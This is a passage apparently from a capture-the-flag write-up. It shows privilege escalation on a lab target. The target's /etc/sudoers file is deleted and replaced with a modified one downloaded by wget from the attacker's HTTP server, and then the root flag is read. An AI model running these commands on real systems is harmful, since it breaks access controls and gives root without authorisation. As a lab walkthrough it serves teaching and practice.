 python3 -m http.server 8080
Target:
cd /etc
rm sudoers
wget http://10.9.245.105:8080/sudoers
```

<img width="828" height="812" alt="image" src="https://github.com/user-attachments/assets/9f2ac570-1126-47b9-9651-26fd9914991a" />

Perfect! A good looking sudoers file. Now we'll just get the root flag as well.

```cat /root/root.txt```
